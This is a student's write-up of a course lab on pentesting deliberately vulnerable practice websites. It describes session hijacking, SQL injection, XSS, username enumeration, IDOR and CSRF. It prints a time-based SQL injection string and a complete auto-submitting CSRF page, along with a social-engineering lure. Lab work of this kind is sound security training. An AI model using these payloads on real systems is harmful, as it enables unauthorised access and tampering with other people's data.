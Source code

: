 # CyberSec-Module-8
Module 8 for Facebook/Codepath


# Project 8 - Pentesting Live Targets

Time spent: **6** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking 
To verify the vulnerability, I logged into the system and copied the current SessionID via the hacktools provided by Codepath. I opened the website in another browser, updated the session ID to the one I had copied, and then attempted to access the system. The result of this was that I was able to access the system in the second browser without logging in with a username and password.

![](https://github.com/Calberrycoder/CyberSec-Module-8/blob/master/Facebook%20Module%208/Session%20Hijackin%20Blue.gif)
Vulnerability #2: SQLI
Opening each version of the site, I added an apostrophe to the end of the url for salesperson "public/staff/salespeople/show.php?id=#" to determine whether there was an SQLI injection weakness. On the blue site, I received a database error indicating a vulnerability. I then injected "' OR SLEEP(5)=0--'" at the end of the URL, and reloaded. The page took 5 seconds to reload, indicating a successful injection.
![](https://github.com/Calberrycoder/CyberSec-Module-8/blob/master/Facebook%20Module%208/SQLI.gif)


## Green

Vulnerability #1: XSS
The contact us form is vulnerable to a <script> injection, activating when the admin logs in to the admin panel of the contact us form.
![](https://github.com/Calberrycoder/CyberSec-Module-8/blob/master/Facebook%20Module%208/XSS%20Green.gif)


Vulnerability #2: User Enumeration
This weakness made is self apparent when attempting to login to the application. If a username was used that existed in the system, the error message was in bold. If an invalid username were used, it would be normal typeface.
![](https://github.com/Calberrycoder/CyberSec-Module-8/blob/master/Facebook%20Module%208/User%20Enumeration%20Green.gif)


## Red

Vulnerability #1: CSRF
This attack was completed by utilizing social engineering to have the admin click a link that included a blank webpage that would then impact the website. The following code was used to create the HTML page:
<html>
  <head>
    <title>You've been hacked, dummy</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=2" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="Sherry Trevino" />
      	<input type="text" name="last_name" value="GOT PWN3D" />
      	<input type="text" name="phone" value="555-352-9654" />
      	<input type="text" name="email" value="strevino@PWN3D.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>

Go here to claim your package! ->
file:///C:/Users/Public/winner,winner.html

![](https://github.com/Calberrycoder/CyberSec-Module-8/blob/master/Facebook%20Module%208/CSRF%20Red.gif)

Vulnerability #2: IDOR
The user accounts are just numbers, which allows us to iterate through the different accounts until a vulnerable one is found. In this instance 11 provides us with Lazy Lazyman, a great target.

![](https://github.com/Calberrycoder/CyberSec-Module-8/blob/master/Facebook%20Module%208/Red%20IDOR.gif)


## Notes

Getting the VMs to work for the labs was a quite a task. Additionally, I had to wait until the servers reset to finish the XSS because it appears that someone forced the contact us admin page to redirect to youtube on load.
